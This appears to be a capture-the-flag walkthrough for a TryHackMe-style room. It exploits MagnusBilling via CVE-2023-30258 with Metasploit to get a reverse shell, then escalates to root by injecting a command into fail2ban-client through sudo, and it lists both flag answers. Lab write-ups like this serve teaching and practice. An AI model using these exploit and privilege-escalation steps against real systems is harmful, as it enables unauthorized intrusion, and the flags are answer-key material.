









Some mistakes can be costly.

Gain a shell, find the way and escalate your privileges!

Note: Bruteforcing is out of scope for this room.

# Step first - Recon

> nmap -sC -sV -A -p- 10.10.110.69

We find Port 5038 - Asterisk Call Manager 2.10.6 

I did some research on MagnusBilling and found the vulnerability CVE-2023-30258

# Step 2. Time to fire up the Metasploit

msfconsole

> use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258

Let's see the requirements

Set the following:

> set RHOSTS 10.10.110.69

> set LHOST 10.10.7.140

> run

A few moments later, we got a Meterpreter shell

type the following:

> shell

Then spawn a TTY shell:

> python3 -c 'import pty; pty.spawn("/bin/bash")'

> ls

# Step 3. - Let's find those flags

type "cd .." until we find the /home/magnus

> cd /home/magnus
> cat user.txt

# Step 4. - Privilege Escalation

Let’s see what we can do with sudo

> sudo -l

We can abuse fail2ban-client to execute commands as root using ban actions

> sudo /usr/bin/fail2ban-client restart

Inject a command to steal root.txt

> sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"

Trigger the ban:

> sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1

Then:

> cat /tmp/root.txt

What is user.txt?

THM{4a6831d5f124b25eefb1e92e0f0da4ca}

What is root.txt?

THM{33ad5b530e71a172648f424ec23fae60}
